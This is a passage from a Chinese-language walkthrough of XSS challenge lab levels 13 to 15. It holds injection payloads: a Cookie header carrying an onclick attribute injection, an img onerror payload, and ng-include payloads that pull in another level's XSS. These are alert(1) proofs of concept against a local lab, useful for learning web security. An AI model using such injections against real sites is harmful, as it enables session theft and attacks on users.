 查看代码，发现是xss进行的cookie注入，那么抓包修改cookie即可

```
GET /xss/level13.php?keyword=good%20job! HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: user=" onclick=alert(1) type="text"
Connection: close
```



## Level 14：

查看源码

```
<h1 align=center>欢迎来到level14</h1>
<center><iframe name="leftframe" marginwidth=10 marginheight=10 src="http://www.exifviewer.org/" frameborder=no width="80%" scrolling="no" height=80%></iframe></center><center>这关成功后不会自动跳转。成功者<a href=/xsschallenge/level15.php?src=1.gif>点我进level15</a></center>
```

payload：

```
"><img src=1 onerror=alert(1)>
```



## Level 15：

```
<?php 
ini_set("display_errors", 0);
$str = $_GET["src"];
echo '<body><span class="ng-include:'.htmlspecialchars($str).'"></span></body>';
?>
```

**ng-include** 指令用于包含外部的 HTML 文件。

包含的内容将作为指定元素的子节点。

**ng-include** 属性的值可以是一个表达式，返回一个文件名。

默认情况下，包含的文件需要包含在同一个域名下。

其payload为：

```
src=level1.php?name=1'window.alert()
```

或者包含第一关

```
src='level1.php?name=<img src=x onerror=alert(1)>'
```



参考文章：[https://www.jianshu.com/p/06c644dafa0d](https://www.jianshu.com/p/06c644dafa0d)

​		   [https://www.cnblogs.com/bmjoker/p/9446472.html](https://www.jianshu.com/p/06c644dafa0d)